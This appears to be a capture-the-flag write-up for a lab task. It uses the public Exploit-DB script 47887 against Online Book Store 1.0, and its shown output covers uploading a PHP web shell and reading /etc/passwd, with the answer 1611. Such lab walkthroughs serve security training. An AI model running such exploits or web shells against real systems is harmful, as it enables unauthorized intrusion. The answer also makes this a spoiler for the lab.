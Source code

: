 # Task 29

### How many characters are in /etc/passwd (use wc -c /etc/passwd to get the answer) <a href="#how-many-characters-are-in-etcpasswd-use-wc--c-etcpasswd-to-get-the-answer" id="how-many-characters-are-in-etcpasswd-use-wc--c-etcpasswd-to-get-the-answer"></a>

Look for CSE bookstore exploit on google and found the: `Online Book Store 1.0 - Unauthenticated Remote Code Execution` [on this link](https://www.exploit-db.com/exploits/47887)

1. Download and verify the contents of the scipt
2. Run the script
   1. python 47887.py [http://10.10.232.250](http://10.10.232.250/)

```
> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell uploaded to http://10.10.232.250/bootstrap/img/G0d3qErVCM.php
> Example command usage: http://10.10.232.250/bootstrap/img/G0d3qErVCM.php?cmd=whoami
> Do you wish to launch a shell here? (y/n): y
RCE $  wc -c /etc/passwd
1611 /etc/passwd
```

#### Answer <a href="#answer" id="answer"></a>

1611
